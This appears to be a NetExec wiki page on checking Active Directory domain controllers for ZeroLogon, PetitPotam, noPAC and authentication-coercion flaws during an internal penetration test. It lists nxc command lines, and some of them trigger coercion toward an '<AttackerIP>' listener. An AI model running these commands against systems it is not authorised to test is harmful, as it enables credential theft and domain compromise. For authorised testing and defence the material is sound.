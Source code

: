 ```yaml
---
description: Check if a DC is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### PetitPotam

`nxc smb <ip> -u '' -p '' -M petitpotam`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for this one
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M petitpotam`

# Scan for Coerce Vulnerabilities

You can check coerce vulnerabilities like Petitpotam, DFSCoerce, PrinterBug, MSEven, ShadowCoerce with the coerce_plus module.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If you find a vulnerability, you can use the `coerce_plus` module to exploit it.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

If you want use all exploit methods add `ALWAYS=true` option.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also use the `coerce_plus` module to check for one coerce method.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of the 'METHOD' option you can use 'M'. Also the short name 'L' instead of the 'LISTENER' argument.
This also applies to the names of vulnerabilities in the method.
-M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error
-M=pr // Matches printerbug
-M=pe // Matches petitpotam
-M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
